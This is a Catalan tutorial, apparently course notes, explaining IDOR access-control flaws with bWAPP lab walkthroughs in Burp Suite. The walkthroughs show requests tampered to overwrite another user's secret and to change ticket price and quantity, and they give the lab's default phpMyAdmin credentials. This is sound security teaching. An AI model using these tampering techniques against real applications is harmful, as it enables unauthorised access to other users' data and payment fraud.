

# 02. Vulnerabilitat IDOR (Insecure Direct Object References)

Els atacs **IDOR** consisteixen en manipular identificadors com (IDs, noms de fitxers, carpetes, referències, etc.) que l'aplicació utilitza per accedir directament a objectes (fitxers de l'aplicació, registres de base de dades, recursos, etc.) sense verificar si l'usuari disposa de permís per accedir-hi.

Aquest tipus d'atac aprofita la **manca de controls d'autorització**, sobretot quan l'aplicació no comprova que el recurs sol·licitat pertany a l'usuari autenticat abans de servir-lo o modificar-lo.

## Vulnerabilitats relacionades amb Broken Access Control

- LFI/RFI: Permeten accedir i executar fitxers sense autorització
- Path Traversal: Permet saltar-se restriccions de directori
- IDOR: Permet accedir a recursos específics manipulant identificadors
- File Upload: Permet pujar fitxers maliciosos que poden executar-se

**Variants d'IDOR**:

- **Numeric ID IDOR**: Modificar IDs numèrics seqüencials (1, 2, 3...) per accedir a recursos d'altres usuaris.
- **GUID/UUID IDOR**: Tot i fer ús d'identificadors aleatoris (UUIDs), pot haver-hi IDOR si un atacant vol accedir a un UUID i no es verifica l'autorització.
- **Filename IDOR**: Manipulació de noms de fitxers o rutes per accedir a recursos no autoritzats.
- **Parameter IDOR**: Modificar paràmetres com `user_id`, `account`, `email` per accedir a dades d'altres usuaris.

## Objectius d'un atac IDOR

- ✅ **Accés no autoritzat a dades d'altres usuaris** - Veure perfils, documents, factures, missatges privats o qualsevol informació que hauria de ser confidencial.
- ✅ **Modificació de recursos de l'aplicació o altres usuaris** - Alterar configuracions de l'aplicació, dades personals, contrasenyes o altres propietats de recursos que no pertanyen a l'atacant.
- ✅ **Eliminació de dades d'altres usuaris** - Esborrar fitxers, registres o comptes sense autorització.
- ✅ **Escalada de privilegis (horizontal)** - Accedir a comptes del mateix nivell (usuari → usuari) per obtenir més informació o altres funcionalitats (Usuari però amb Netflix premium).
- ✅ **Data breach massiu** - Enumerar tots els IDs per extreure informació de tots els usuaris del sistema (procés de scraping).

## Com funciona un atac IDOR?

**Funcionament normal (sense vulnerabilitat)**:

```http
GET /api/profile?id=123 HTTP/1.1
Cookie: session=user123_session

Response:
{
  "id": 123,
  "name": "Pepet",
  "email": "pepet@web.cat"
}
```

L'usuari `Pepet` (ID 123) veu el seu propi perfil. **És Correcte**.

**Atac IDOR (amb vulnerabilitat)**:

```http
GET /api/profile?id=456 HTTP/1.1
Cookie: session=user123_session

Response:
{
  "id": 456,
  "name": "Pepito",
  "email": "pepito@web.cat",
  "tel": "655443322"
}
```

L'usuari `Pepet` canvia l'ID a `456` i pot veure el perfil o dades de l'usuari `Pepito`! **IDOR vulnerabilitat**.

## Com sabem si es pot explotar la vulnerabilitat?

**Indicadors d'IDOR**:

- ✅ **IDs numèrics seqüencials** a la URL o paràmetres (1, 2, 3, 4...)
- ✅ **No hi ha verificació d'autorització** - L'aplicació retorna dades sense comprovar si pertanyen a l'usuari
- ✅ **Missatges d'error que no deneguen l'accés** - `ID not found` en lloc de `Access denied`

## Realitzar un atac IDOR

### Exemple 1: IDOR - Change User Secret (Modificació d'altes Perfils)

Aquest primer exercici demostra com un atacant pot **modificar les dades d'altres usuaris** simplement canviant el paràmetre del nom d'usuari a la petició HTTP.

**Accedir a l'exercici**:

1. Al menú desplegable "Choose your bug", seleccionar: **Insecure DOR (Change Secret)**

**Funcionament normal**:

L'aplicació permet canviar el "secret" (una dada personal) de l'usuari autenticat:

```
Login: bee
Secret: Any bugs?
```

**Explotació IDOR amb Burp Suite**:

0. **Accedeix a http://IP_BWAPP/phpmyadmin/ amb root/bug**

- Crea un nou usuari per poder explotar la vulnerabilitat d'IDOR.



1. **Activar Intercept a Burp Suite**: Proxy → Intercept → Intercept is on

2. **Modificar el secret** i fer clic a "Change"

3. **Capturar la petició** a Burp Suite:

```http
POST /bWAPP/idor_1.php HTTP/1.1
Host: IP_BWAPP
Cookie: PHPSESSID=...; security_level=0
Content-Type: application/x-www-form-urlencoded

login=bee&secret=New+Secret&action=change
```

4. **Modificar el paràmetre `login`**:

Canviar `login=bee` per `login=ciber` (o un altre usuari que hagis creat):

```http
login=ciber&secret=HACKED&action=change
```

5. **Forward la petició** i veure la resposta al phpmyadmin:

```
The secret has been change!
```

**Verificació**:

- Has modificat el "secret" de l'usuari `ciber` sense ser admin!
- Això és **escalada de privilegis horitzontal** (usuari → usuari)

### Exemple 2: IDOR - Order Tickets (Manipulació de Comandes)

Aquest tercer exercici simula un sistema de **compra de tiquets** on els usuaris poden fer comandes. La vulnerabilitat permet **modificar la quantitat i el preu dels tiquets**.

**Funcionament normal**:

```
How many movie tickets would you like to order? (15 EUR per ticket)
I would like to order X tickets.
```

**Resposta**:

```
You ordered 5 movie tickets.
Total amount charged from your account automatically: 75 EUR.
Thank you for your order!
```

**Explotació IDOR amb Burp Suite**:

1. **Interceptar la petició** de visualitzar una comanda:

```http
POST /bWAPP/insecure_direct_object_ref_2.php HTTP/1.1
Host: IP_DEL_BWAPP
Cookie: security_level=0; PHPSESSID=...

ticket_quantity=1&ticket_price=15&action=order
```

2. **Canviar el `ticket_quantity` i/o `ticket_price`** per alterar el funcionament de l'aplicació:

```
ticket_quantity=10
ticket_price=1
```

**Resposta**:

```
You ordered 10 movie tickets.
Total amount charged from your account automatically: 10 EUR.
Thank you for your order!
```
